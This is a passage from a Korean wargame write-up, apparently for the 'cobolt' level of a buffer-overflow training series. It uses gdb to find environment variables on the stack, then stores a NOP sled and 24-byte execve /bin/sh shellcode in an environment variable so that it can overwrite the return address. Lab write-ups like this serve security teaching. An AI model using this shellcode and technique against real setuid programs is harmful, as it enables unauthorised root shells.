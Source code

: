 실제 프로그램이 실행되면 스택 어느 부분에 쌓이게 되는지 알아보자.

```shell
$ gdb -q aobolt
(gdb) set disassembly-flavor int
(gdb) b*main
(gdb) r
(gdb) x/32s $ebp+291
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/06.png" width="600px">{:.rounded.shadow}

cobolt를 복사한 abolt 파일을 기준으로 ebp+281부분부터 보게되면 환경변수들이 스택에 쌓여 있는 것을 볼 수 있다.

스택 위치가 ebp+281이라는 것은 보았을 때, **'환경변수가 먼저 스택에 쌓이고 프로그램이 실행된다.'**는 것을 알 수 있다.

따라서 우리는 이 부분에 shellcode를 올리고, RET에 환경변수 주소를 넣어 shellcode가 실행되도록 해보자.

<br>

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/07.png" width="600px">{:.rounded.shadow}

환경변수를 추가하는 방법은 아래 명령어를 이용하여 추가 할 수 있다.
```shell
$ export [변수명]="변수 값"
```

위 사진처럼 `shellcode`라는 환경변수를 추가하였으며, 다시 프로그램을 실행하여 정상적으로 스택에 쌓이지는 확인해보자.

```shell
$ gdb -q aobolt
(gdb) set disassembly-flavor int
(gdb) b*main
(gdb) r
(gdb) x/32s $ebp+291
```
<br>

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/08.png" width="600px">{:.rounded.shadow}

환경변수가 추가되어 스택의 주소가 약간 변동이 있지만, 정상적으로 `shellcode` 환경변수가 스택에 들어가 있음을 알 수 있다.

<br>

이제 환경변수가 스택에 쌓이고 프로그램이 실행된다는 개념을 알았으므로 이를 이용하여 exploit을 해보자.

먼저 환경변수에 쉘코드를 넣어보자.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
```shell
$ export shellcode=`python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```
<img src="http://eliez3r.synology.me/assets/img/writeup/lob/02.cobolt/09.png" width="900px">{:.rounded.shadow}
